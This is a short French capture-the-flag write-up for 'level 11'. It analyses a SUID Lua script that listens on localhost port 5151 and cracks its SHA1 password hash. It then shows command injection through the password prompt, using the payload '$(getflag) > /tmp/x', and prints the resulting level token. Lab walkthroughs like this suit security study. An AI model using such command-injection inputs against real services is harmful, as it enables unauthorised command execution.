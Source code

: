 
LEVEL 11

------------------------------------------------------------------------------------------------------------------------

* Recherches

    Script en Lua
    SUID flag11
    Serveur "127.0.0.1" port 5151

    
    Analyse du script Lua
    CF. script.lua

    f05d1d066fb246efe0c6f7d095f909a7a0cf34a0 = NotSoEasy

    Macos : brew install luarocks
    luarocks install luasocket

    On remplace shasum1 par shasum sur macos (shasum = shasum de sha1)

    lua script.lua
    lsof -i:5151
    nc localhost 5151
        password : NotSoEasy
    
    On voit ligne 6 que le script Lua execute en shell l'input du client, donc on peux mettre de coté les recherches sur les hashs, en apparence, pas de faille de toute façon
    Donc potentiellement, on peut "injecter" du code

    lua script.lua
    nc localhost 5151
        Password: getflag > /tmp/x
    
    Pas de flag, retry avec $()

        Password: $(getflag) > /tmp/x

    cat /tmp/x
        Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
    
    su level12
        fa6v5ateaw21peobuub8ipe6s

